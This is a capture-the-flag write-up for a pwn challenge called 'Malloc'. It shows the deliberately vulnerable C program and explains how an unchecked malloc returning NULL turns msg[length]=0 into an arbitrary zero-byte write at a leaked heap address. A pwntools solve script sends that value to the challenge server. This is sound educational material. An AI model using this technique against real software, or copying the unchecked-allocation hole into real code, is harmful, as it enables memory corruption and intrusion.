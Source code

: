 # Malloc

Category: Pwn

Points: 400

Solves: 2

> Can you somehow get the flag? Have fun!
>
> ```
> nc challs.sieberrsec.tech 1470
> ```

The exploit for this challenge was really simple (you could do it by hand) but it's quite difficult to find, which is probably why there were only 2 solves during the CTF.

```c
#include <unistd.h>

#include <stdio.h>
#include <stdlib.h>

// cc malloc.c -o malloc -fstack-protector-all
int main(void)
{
	// Variables
	int *arr; // int pointer to an array
	char *msg; // C-string to store your message
	size_t length = 0;
	// Welcome message
	puts("Welcome to Sieberrsec CTF!");
	// Allocates 123456 bytes of memory
	arr = (int *)malloc(123456);
	// Sets first element of arr to 1
	arr[0] = 1;
	// Leaks the memory address of arr
	printf("Leak: %p\n", arr);
	// Gets length of your message
	printf("Length of your message: ");
	scanf("%lu", &length);
	// Allocates memory to store your message as a C-string
	// +1 is to store the null-byte that ends the string
	msg = malloc(length + 1);
	// Reads length bytes of input into msg
	printf("Enter your message: ");
	read(0, msg, length);
	// Null-byte to end the string
	msg[length] = 0;
	// Write length bytes from msg
	write(1, msg, length);
	// Your goal: somehow make arr[0] == 0
	if (arr[0] == 0) {
		system("cat flag");
	}
	return 0;
}
```

Of course, when I saw the challenge name, I thought it was going to be a really complex heap challenge, so I popped up gdb and started debugging the binary. 

![image-20211227064425507](C:\Users\Lam Jun Rong\Desktop\ctf\writeups\2021\sieberrsec\images\heap_chunks.png)

Unfortunately, the chunk we can write to (0x0000555555577d10) is after the chunk we want to write to (0x5555555596b0) so we probably can't do a heap overflow. The code doesn't seem vulnerable to heap overflows anyway. There are no frees, so it's probably not a "traditional" heap challenge.

Next, I looked through the heap checklist (you can find it [here](https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/)):

![](https://azeria-labs.com/wp-content/uploads/2019/03/heap-rules-CS.png)

Aha, the final rules is violated: the program does not check if malloc returns a valid pointer!

```c
msg = malloc(length + 1);

// Reads length bytes of input into msg
printf("Enter your message: ");
read(0, msg, length);

// Null-byte to end the string
msg[length] = 0;
```

Malloc returns a nullptr (pointer to 0x0) if it is unable to allocate enough memory. This can happen when we try to allocate a very large chunk. This can of course lead to null dereference bugs, but how does it lead to arbitrary write?? 

This actually occurs when we do `msg[length]=0`. If `msg = nullptr`, then `msg[x] = *x`, since C array indexing is just pointer math. It also helps that `msg` is a char pointer so we don't need to divide by the size of the array element.

So now that we have arbitrary write, where do we write to? This is where the leak comes in. If we are able to set the byte at the leaked address to 0, we can get the flag:

```c
// Allocates 123456 bytes of memory
arr = (int *)malloc(123456);
// Sets first element of arr to 1
arr[0] = 1;
// Leaks the memory address of arr
printf("Leak: %p\n", arr);

// more code here

// Your goal: somehow make arr[0] == 0
if (arr[0] == 0) {
	system("cat flag");
}
```

The `arr` array is located on the heap, which has one of the highest memory addresses of a program's memory, so if we set `length=leak` and try to `msg = malloc(length)` it's going to return a null pointer. Then, when `msg[length] = 0` is executed, what actually happens is `*leak = 0`. This allows us to pass the `arr[0] == 0` check and get the flag!

## Solve script

```python
from pwn import *

e = ELF("./malloc")
context.binary = e

def setup():
    #p = e.process()
    p = remote("challs.sieberrsec.tech", 1470)
    return p

if __name__ == '__main__':
    p = setup()
    p.recvline()
    p.recvuntil("0x")
    # Grab the leak and convert to decimal
    leak = p.recvline(keepends=False)
    leak = int(leak,16)
    p.sendline(str(leak))
    # Stupid scanf might greedily eat the newline we are going to send
    pause(5)
    p.sendline("")

    p.interactive()
```

## Comments

This was actually quite an interesting challenge, because despite its seeming complexity, the solution was simple and (sort of?) elegant. I was a bit concerned that `read`ing to a `nullptr` would cause some problems, but fortunately it didn't crash or anything.

Btw this website (where I got the checklist from) is a really good resource for learning heap:

- https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/
- https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/
